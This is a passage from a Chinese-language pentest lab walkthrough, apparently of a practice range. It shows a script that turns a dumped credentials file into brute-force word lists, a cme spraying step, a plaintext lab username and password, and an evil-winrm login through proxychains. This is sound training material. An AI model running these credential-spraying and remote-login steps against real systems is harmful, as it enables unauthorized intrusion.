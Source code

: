 ```bash
with open('credentials.txt', 'r') as file:
    lines = file.readlines()

usernames = [line.split('|')[1].strip() for line in lines[2:]]
passwords = [line.split('|')[2].strip() for line in lines[2:]]

with open('user.txt', 'w') as user_file:
    for username in usernames:
        user_file.write(username + '\n')

with open('pwd.txt', 'w') as pwd_file:
    for password in passwords:
        pwd_file.write(password + '\n')
```

使用 cme 进行爆破

[![](assets/1706233449-f2d4cdfd8c8607f71a8dbeaefeb8737f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143607-daa3b904-ba82-1.png)

不过慢慢发现 Fscan 中有这么一条

```bash
[*] NetBios: 172.22.14.46    XIAORANG\XR-0923
```

正好凭据也有一条

```bash
XR-0923 | zhangshuai | wSbEajHzZs
```

所以其实不用爆破，直接 RDP 就可以了

[![](assets/1706233449-81684d1896b23e34cedd9155c4c6223d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143750-186de69c-ba83-1.png)

### 信息搜集

查看当前所拥有权限

```bash
whoami /priv
```

[![](assets/1706233449-441de6924f2567fd5d34eb24c96ecd8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143758-1ccc2b04-ba83-1.png)

是`Remote Management Use`成员

可以参考[https://forum.butian.net/share/2080](https://forum.butian.net/share/2080)

使用`evil-winrm`连接此机器

```bash
proxychains evil-winrm -i 172.22.14.46 -u zhangshuai -p wSbEajHzZs
```

[![](assets/1706233449-05b5b9b5dcbabda25f7d27ebe99dc172.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143803-203e0442-ba83-1.png)
